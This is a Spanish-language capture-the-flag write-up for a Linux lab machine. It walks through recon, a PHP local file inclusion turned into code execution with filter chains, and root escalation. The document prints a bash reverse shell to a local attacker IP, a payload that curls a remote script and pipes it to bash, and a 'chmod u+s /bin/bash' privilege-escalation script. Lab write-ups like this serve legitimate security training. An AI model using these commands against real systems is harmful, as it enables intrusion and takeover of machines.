# Maquina: lfi.elf
- Dificultad: Dificil
- OS: Linux
- 


---

## Reconocimiento

El escaneo basico fue realizado con nmap, descubriendo el puerto 80.


La web se ve interesante, un estilo neon llamativo.
Lo unico accesible es el boton que lleva a otra pagina.


Haciendo un escaneo con gobuster se pueden descurbrir varias rutas interesantes.
Viendo algunos directorios y archivos con varias extenciones.


Viendo el archivo **secret.txt** se puede observar un mensaje interesante, una especie de nota para el usuario lin.
El mensaje incita a investigar para encontrar un acceso, 


La herramienta wufzz se uso para probar varias combinaciones, probando una wordlists para encontrar un porametro que permita injectar codigo.
Encontrando el parametro **search** en php, y con el payload que se uso aqui se confirma una lectura de archivos.


Usando curl se puede visualizar mejor que payload que se uso.


---

## Explotacion

### Web

Para empezar con la explotacion se usara el exploit [php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator).
Este exploit permite generar cadenas de php, las cuales agregar a la peticion web y aprovechar el LFI.

La explotacion trata de crear un archivo que contenga una reverse shell, crear un servidor simple con python y con **php_filter_chain_generator** se generaran cadenas para ejecutar la reverse shell. 

El archivo clave sera el **shell**, el cual contiene el script en bash.

```
#!/bin/bash

bash -i >& /dev/tcp/172.17.0.1/443 0>&1
```

Despues de crear el archivo se crea la cadena usando el script y se usa python para crear un servidor simple, logrando compartir el archivo.



> Nota
> importante que la cadena tenga la direccion ip y el puerto en el que python expone el servicio web.
> La cadena usa curl para hacer la consulta, obtener el archivo y ejecutarlo.

```
# Generar cadena
python3 php_filter_chain_generator.py --chain '<?= `curl 172.17.0.1:8000/shell|bash` ?>'

# Levantar servidor python
python3 -m http.server 8000

# Escuchar con netcat en el puerto
# (en este caso se usa penelope por comodidad, ya que penelope crea la coneccion de escucha con netcat y adapta automaticamente el tratamiento de la tty)
penelope -p 443
```

### Terminal

Ya dentro de la terminal se pudieron encontrar cosas interesantes.
En el directorio **/var/www/** se encuentran algunas carpetas ocultas, dentro de varias carpetas hay un archivo interesdante, el archivo **passwords.txt**



Teniendo ya la clave de lin se pudo acceder a la consola de el usuario.
Encontrando en su carpeta principal un programa sencillo en python, mostrando este archivo una libreria peculiar, la cual sera el vector de ataque.



Buscando el nombre de la libreria se pudo encontrar el ejecutable de esta, logrando ver que en su ejecutable este requiere un archivo llamado **/tmp/script.sh**.



El siguiente paso es crear el script, haciendo que el programa use la libreria, recurra al script y otorge permisos de el usuario root.
Consiguiendo asi la escalada de privilegios.

```
#!/bin/bash
chmod u+s /bin/bash
```



---

## Pickle !!

